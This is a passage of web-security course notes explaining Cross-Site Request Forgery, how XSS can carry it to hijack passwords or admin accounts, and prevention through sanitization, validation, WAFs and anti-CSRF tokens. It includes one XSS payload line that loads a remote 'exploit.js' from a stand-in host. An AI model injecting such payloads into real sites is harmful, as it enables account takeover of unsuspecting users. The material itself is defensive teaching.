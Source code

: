 ﻿---
sticker: lucide//curly-braces
---

The third type of front end vulnerability that is caused by unfiltered user input isÂ [Cross-Site Request Forgery (CSRF)](https://owasp.org/www-community/attacks/csrf).Â `CSRF`Â attacks may utilizeÂ `XSS`Â vulnerabilities to perform certain queries, andÂ `API`Â calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A commonÂ `CSRF`Â attack to gain higher privileged access to a web application is to craft aÂ `JavaScript`Â payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing theÂ `JavaScript`Â `CSRF`Â payload), theÂ `JavaScript`Â code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

`CSRF`Â can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of usingÂ `JavaScript`Â code that would return the session cookie, we would load a remoteÂ `.js`Â (`JavaScript`) file, as follows:

Code:Â html

```html
"><script src=//www.example.com/exploit.js></script>
```

TheÂ `exploit.js`Â file would contain the maliciousÂ `JavaScript`Â code that changes the user's password. Developing theÂ `exploit.js`Â in this case requires knowledge of this web application's password changing procedure andÂ `APIs`. The attacker would need to createÂ `JavaScript`Â code that would replicate the desired functionality and automatically carry it out (i.e.,Â `JavaScript`Â code that changes our password for this specific web application).

---

## Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

|Type|Description|
|---|---|
|`Sanitization`|Removing special characters and non-standard characters from user input before displaying it or storing it.|
|`Validation`|Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks likeÂ `HTML Injection`,Â `XSS`, orÂ `CSRF`. Another solution would be to implement aÂ [web application firewall (WAF)](https://en.wikipedia.org/wiki/Web_application_firewall), which should help to prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

As forÂ `CSRF`, many modern browsers have built-in anti-CSRF measures, which prevent automatically executingÂ `JavaScript`Â code. Furthermore, many modern web applications have anti-CSRF measures, including certain HTTP headers and flags that can prevent automated requests (i.e.,Â `anti-CSRF`Â token, orÂ `http-only`/`X-XSS-Protection`). Certain other measures can be taken from a functional level, like requiring the user to input their password before changing it. Many of these security measures can be bypassed, and therefore these types of vulnerabilities can still pose a major threat to the users of a web application. This is why these precautions should only be relied upon as a secondary measure, and developers should always ensure that their code is not vulnerable to any of these attacks.

ThisÂ [Cross-Site Request Forgery Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)Â from OWASP discusses the attack and prevention measures in greater detail.

[Previous](Cross-Site%20Scripting%20(XSS).md)

